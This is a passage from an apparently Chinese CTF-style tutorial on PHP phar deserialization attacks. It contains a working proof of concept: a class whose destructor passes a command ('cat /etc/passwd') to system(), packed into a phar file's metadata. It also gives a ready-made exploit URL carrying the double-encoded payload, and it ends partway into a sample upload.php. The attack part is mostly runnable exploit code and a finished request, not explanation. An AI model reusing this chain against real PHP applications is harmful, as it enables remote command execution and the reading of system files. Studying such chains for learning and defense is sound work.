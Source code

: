 ```php
echo base64_encode(file_get_contents($a));
?>
```

- 反序列化控制`$this->b`和`$this->a`
- `parse_str()`未设置存储变量的数组，可造成变量覆盖即可控制`$a`和`$hello`
- `file_get_contents($a)`可触发`phar`包中的`meta-data`自动反序列化

POC

```php
<?php
class A {
    protected $b = true;
    protected $a = 'cat /etc/passwd';
    public function __destruct () {
        if ($this->b) {
            system($this->a);
        }
    }
}
$o = new A();
$filename = 'poc.phar';
file_exists($filename)?unlink($filename) : null;
$phar = new Phar($filename);
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString('test.txt','mochu7');
$phar->stopBuffering();

echo urlencode(urlencode(base64_encode(file_get_contents("poc.phar"))));
 ?>
```

```php
/?world=a=phar://./hello.txt%26hello=X19IQUxUX0NPTVBJTEVSKCk7ID8%252BDQpzAAAAAQAAABEAAAABAAAAAAA9AAAATzoxOiJBIjoyOntzOjQ6IgAqAGIiO2I6MTtzOjQ6IgAqAGEiO3M6MTU6ImNhdCAvZXRjL3Bhc3N3ZCI7fQgAAAB0ZXN0LnR4dAYAAAB91GdhBgAAAHK3aJu2AQAAAAAAAG1vY2h1N9VfplChrvATVfgv5qmQqA48qAw2AgAAAEdCTUI%253D
```

### 例题:

upload.php

```php
<!DOCTYPE html>
<html>
<head>
    <title>文件上传</title>
</head>
<body>
<form method="post" enctype="multipart/form-data">
    <input type="file" name="pic"/>
    <input type="submit" value="上传"/>
</body>
</html>
<?php
header("Content-type:text/html;charset=utf-8");
$ext_arr = array('.jpg', '.png', '.gif');
if (empty($_FILES)) {
    echo "请上传文件";
} else {
    define("PATH", dirname(__DIR__));
    $path = PATH . "/" . "upload" . "/" . "images";
    $filetype = strrchr($_FILES["pic"]["name"], ".");
```